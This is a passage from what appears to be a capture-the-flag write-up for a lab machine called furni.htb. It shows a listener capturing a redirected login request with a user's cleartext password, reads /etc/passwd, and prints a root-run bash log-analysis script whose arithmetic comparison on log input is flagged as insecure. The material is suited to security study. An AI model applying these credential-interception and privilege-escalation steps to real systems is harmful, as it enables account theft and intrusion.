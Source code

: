 Now the waiting game starts, we have to wait for a user to login to our instance.

After waiting a couple minutes we should get a response on our listener.

```http
Ncat: Connection from 10.129.235.146.
Ncat: Connection from 10.129.235.146:36224.
POST /login HTTP/1.1
X-Real-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1,127.0.0.1
X-Forwarded-Proto: http,http
Content-Length: 168
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: SESSION=Yzk2Y2NjZTItMzFmYS00YjI0LTliODgtNTAzZjc0YTg5OTY2
User-Agent: Mozilla/5.0 (X11; Linux x86_64)
Forwarded: proto=http;host=furni.htb;for="127.0.0.1:44654"
X-Forwarded-Port: 80
X-Forwarded-Host: furni.htb
host: 10.10.14.158:8081

username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=U-giSLlpz4je9zxMpzHeT5aEJ8f1gm3DO-b7KD2EOtQfhvp7at4Tf48N_e3zkg4qwRzqLfSzCv_B4V7uXtLIHQXgCuUp5ZxL
```

We get the following credentials:

`miranda.wise`:`IL!veT0Be&BeT0L0ve`

Using `oscar190`'s access we can see the actual username in `/etc/passwd`.

```bash
cat /etc/passwd

<SNIP>
miranda-wise:x:1001:1002:,,,:/home/miranda-wise:/bin/bash
</SNIP>
```

Just like that we have User!

# Root
Running `pspy` we see the following script being ran.

```bash
2025/04/27 12:08:03 CMD: UID=0     PID=518206 | /bin/bash /opt/log_analyse.sh /var/www/web/cloud-gateway/log/application.log
```

Within the script we can see the following insecure code.

```bash
analyze_http_statuses() {
    # Process HTTP status codes
    while IFS= read -r line; do
        code=$(echo "$line" | grep -oP 'Status: \K.*')
        found=0
        # Check if code exists in STATUS_CODES array
        for i in "${!STATUS_CODES[@]}"; do
            existing_entry="${STATUS_CODES[$i]}"
            existing_code=$(echo "$existing_entry" | cut -d':' -f1)
            existing_count=$(echo "$existing_entry" | cut -d':' -f2)
            if [[ "$existing_code" -eq "$code" ]]; then
                new_count=$((existing_count + 1))
                STATUS_CODES[$i]="${existing_code}:${new_count}"
```